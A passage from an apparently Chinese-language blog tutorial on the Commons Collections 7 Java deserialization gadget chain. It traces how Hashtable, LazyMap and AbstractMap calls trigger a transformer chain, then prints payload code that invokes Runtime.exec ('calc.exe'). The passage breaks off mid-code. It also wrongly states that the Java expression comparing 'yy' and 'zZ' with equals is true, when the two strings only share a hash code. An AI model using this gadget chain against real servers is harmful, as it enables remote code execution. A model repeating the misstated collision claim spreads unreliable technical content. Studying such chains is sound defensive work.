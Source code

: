 如果存在的话会比对两者的 hash 是否相同, 然后调用 key (也就是 LazyMap) 的 equals 方法

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211232053834.png)

LazyMap 继承自 AbstractMapDecorator, AbstractMapDecorator 的 equals 调用的是 HashMap 的 equals, 而 HashMap 没有重写 equals 方法, 所以会跳转到它的父类 AbstractMap 的 equals 方法

之后先判断传入的 o (另一个 LazyMap) 是否为 map 本身, 然后判断 map 大小是否相等, 最后代码执行到如图所示的地方, 调用 `m.get(key)` 来触发 transform 链

需要注意第二次循环时必须得先让 `e.hash == hash`, 否则根据短路运算的特性无法执行后面的 `e.key.equals(key)`

LazyMap 的 hashCode 调用链与 equals 一样, 最终会来到 AbstractMap 的 hashCode

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211232105540.png)

cc7 的 hash 碰撞来源于 `String.hashCode()` 的缺陷, 这里不展开讲了, 简单来说就是下面的表达式为 true

```java
"yy".equals("zZ")
```

构造的思路就是将 yy zZ 分别放入两个 LazyMap, 然后将这两个 LazyMap 作为 key 放入 Hashtable

payload 如下

```java
package com.example.CommonsCollections7;

import com.example.Reflection;
import com.example.Serialization;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CommonsCollections7 {
    public static void main(String[] args) throws Exception{

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
                new ConstantTransformer(1)
        };

        Transformer transformerChain = new ChainedTransformer(new Transformer[]{});

        Map innerMap1 = new HashMap();
        Map innerMap2 = new HashMap();

        Map lazyMap1 = LazyMap.decorate(innerMap1, transformerChain);
        lazyMap1.put("yy", 1); // 放入 yy

        Map lazyMap2 = LazyMap.decorate(innerMap2, transformerChain);
        lazyMap2.put("zZ", 1); // 放入 zZ, 其中 value 的值要和上面的相同

        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1, 1); // 将 LazyMap 放入 Hashtable, value 任意
```